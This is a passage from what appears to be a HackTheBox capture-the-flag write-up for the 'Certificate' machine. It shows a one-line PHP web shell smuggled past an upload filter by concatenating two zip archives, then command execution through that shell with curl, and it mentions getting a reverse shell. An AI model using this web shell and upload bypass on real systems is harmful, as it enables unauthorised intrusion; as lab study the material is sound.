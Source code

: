 ```bash
echo 'test' > z.pdf
echo '<?=`$_GET[0]`?>' > s.php
zip 1.zip z.pdf
zip 2.zip s.php
cat 1.zip 2.zip > 3.zip
```
You can then unzip this file to see the method at work,

Upload our 3.zip and we get a success:

![zip_success](../assets/posts/htb-certificate/successful_zip.png)

So we can copy that link, and replace it with our shell file, that was also in the zip.
```bash
curl -s http://certificate.htb/static/uploads/3160192f554f27d2f295db22ef5556d9/s.php?0=whoami
certificate\xamppuser 
```
And we're in.
We can then just get a reverse shell, with revshells after url encoding it and now we navigate
